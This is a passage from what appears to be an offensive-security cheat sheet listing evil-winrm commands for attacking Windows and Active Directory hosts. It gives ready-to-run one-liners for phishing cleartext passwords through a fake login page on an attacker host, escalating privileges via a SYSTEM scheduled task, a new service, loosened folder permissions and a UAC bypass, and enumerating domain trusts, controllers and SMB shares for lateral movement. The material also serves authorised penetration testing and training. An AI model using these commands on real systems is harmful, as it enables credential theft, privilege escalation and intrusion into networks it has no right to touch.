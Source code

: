     evil-winrm -i <target_ip> -u <username> -p <password> -c "Invoke-WebCredentialHarvester"
    ```
5. **Capturing Cleartext Passwords**: Phishes cleartext passwords by redirecting users to a fake login page.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "Invoke-CredentialPhish -URL http://<attacker_ip>/login"
    ```

#### Privilege Escalation

1. **Enumerating Privileges**: Lists the privileges associated with the current user.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "whoami /priv"
    ```
2. **Finding Vulnerable Services**: Identifies services that are configured to start automatically but are currently stopped, which might be leveraged for privilege escalation.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "Get-Service | Where-Object {$_.StartType -eq 'Automatic' -and $_.Status -eq 'Stopped'}"
    ```
3. **Exploiting Misconfigured Services**: Creates a new service that runs with elevated privileges, potentially leading to privilege escalation.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "New-Service -Name 'Escalation' -BinaryPathName 'C:\Windows\System32\cmd.exe /c whoami' -Credential (New-Object System.Management.Automation.PSCredential('admin', (ConvertTo-SecureString 'password' -AsPlainText -Force)))"
    ```
4. **Abusing Weak Folder Permissions**: Modifies folder permissions to allow writing to a directory, enabling malicious DLL injection or binary replacement.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "icacls 'C:\Program Files\VulnerableApp' /grant Everyone:F"
    ```
5. **Exploiting Scheduled Tasks**: Creates a scheduled task that runs with SYSTEM privileges every minute, allowing privilege escalation.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "schtasks /create /tn 'Escalation' /tr 'C:\Windows\System32\cmd.exe /c whoami' /sc minute /mo 1 /ru SYSTEM"
    ```
6. **Escaping User Mode with UAC Bypass**: Executes a PowerShell script to bypass User Account Control (UAC) and escalate privileges to Administrator.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "Invoke-UACBypass"
    ```

#### Lateral Movement

1. **Enumerating Domain Trusts**: Lists domain trusts within the Active Directory environment, identifying potential paths for lateral movement.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "Get-DomainTrust"
    ```
2. **Listing Domain Controllers**: Lists all domain controllers in the domain, useful for planning lateral movement.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "Get-ADDomainController -Filter *"
    ```
3. **Enumerating Shares on Remote Hosts**:
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "Invoke-ShareFinder"
    ```
 Enumerates SMB shares on remote hosts, identifying potentially sensitive data or further attack vectors.
